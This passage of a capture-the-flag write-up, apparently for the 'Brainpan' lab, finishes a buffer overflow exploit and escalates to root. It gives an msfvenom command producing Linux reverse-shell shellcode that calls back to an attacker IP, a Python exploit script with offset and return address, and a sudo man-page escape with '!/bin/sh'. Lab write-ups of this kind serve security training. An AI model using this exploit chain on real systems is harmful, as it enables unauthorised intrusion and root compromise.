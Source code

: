   ```!mona compare -f C:\mona\brainpan\bytearray.bin -a 005FF910```

* So, we have to regenerate our ```msfvenom``` shellcode for getting a Linux reverse shell:

  ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.14.31.212 LPORT=4444 EXITFUNC=thread -b "\x00" -f c```

* We can edit exploit script and add the new shellcode by replacing old one, and edit the IP address if required.

* Our final exploit script will look like this:

```python
import socket

ip = "10.10.250.254"
port = 9999

offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
#jump point address
padding = "\x90" * 16
payload = ();
#add shellcode for linux reverse shell in payload
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

* Setting up our listener on port 4444 again, and running the Python exploit script gives us reverse shell for the Linux environment this time.

* We have to upgrade our shell here in order to get full functionality.

* Checking ```sudo -l``` shows that we can run ```/home/anansi/bin/anansi_util``` as root without password.

* Running this command as sudo gives us 3 possible actions - network, proclist and manual.

* Using network and proclist shows us output for ```ipconfig``` and ```ps```, and manual, followed by any command, shows the ```man``` page for that command.

* Checking on ```GTFObins``` for exploits, we can see that ```man``` can be escaped by using ```!/bin/sh```, which spawns a shell from manual page.

* Using this command, we are able to get a root shell.

